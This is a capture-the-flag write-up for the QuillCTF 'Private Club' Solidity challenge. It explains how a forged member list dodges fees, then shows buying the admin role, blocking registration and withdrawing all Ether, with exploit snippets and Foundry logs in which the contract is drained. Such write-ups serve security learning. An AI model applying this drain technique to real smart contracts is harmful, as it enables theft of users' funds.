 # QuillCTF: Private Club Exploit

- [Challenge](https://academy.quillaudits.com/challenges/quillctf-challenges/private-club  )
- Contract: [PrivateClub](../../src/QuillCTF/PrivateClub.sol)  
- Exploit: [PrivateClubExploit](../../test/QuillCTF/PrivateClubExploit.t.sol)

The objective of the CTF was to become a member of the private club, to block future registrations and also to withdraw all Ether from the smart contract.

## Exploit

Anyone can become a member of the private club by triggering the `becomeMember()` function. It's even possible for an exploiter to craft a fake member list to avoid paying fees when registering by creating a fraudulent member list consisting solely of their own address. This way, the value sent with the transaction will be sent back to the exploiter. This vulnerability exists because the function does not verify the authenticity of the member list.

```java
// Become a member of the private club
address[] memory members = new address[](3);
members[0] = address(exploiter);
members[1] = address(exploiter);
members[2] = address(exploiter);
target.becomeMember{value: 3 ether}(members);
```

Once done, the exploiter only needs 10 Ether to become the new owner of the contract. With this level of ownership, the exploiter gains an excessive amount of power, enabling them to prevent others from registering and withdraw all of the funds.

```java
// Pay to become the new owner
target.buyAdminRole{value: 10 ether}(exploiter);
assertTrue(target.members(exploiter));
```

Now the exploiter can abuse their power and carry out any actions they desire.

```java
// Close the registration period: users won't be able to register anymore
target.setRegisterEndDate(block.timestamp - 1);

// Withdraw all the funds
target.adminWithdraw(exploiter, address(target).balance);
```

## PoC

The following are the logs generated by executing the exploit using Foundry:

```bash
$ make exploit CONTRACT=PrivateClub  
Running 1 test for test/QuillCTF/PrivateClubExploit.t.sol:PrivateClubExploit
[PASS] testExploit() (gas: 158544)
Logs:
  Balances: target=100 ETH exploiter=20 ETH
  Become a member of the private club
  Balances: target=100 ETH exploiter=20 ETH
  Pay to become the new owner
  Balances: target=110 ETH exploiter=10 ETH
  Close the registration period
  User 3 tries to become a member without any success
  Withdraw all the funds
  Balances: target=0 ETH exploiter=120 ETH

Test result: ok. 1 passed; 0 failed; finished in 1.31ms
```
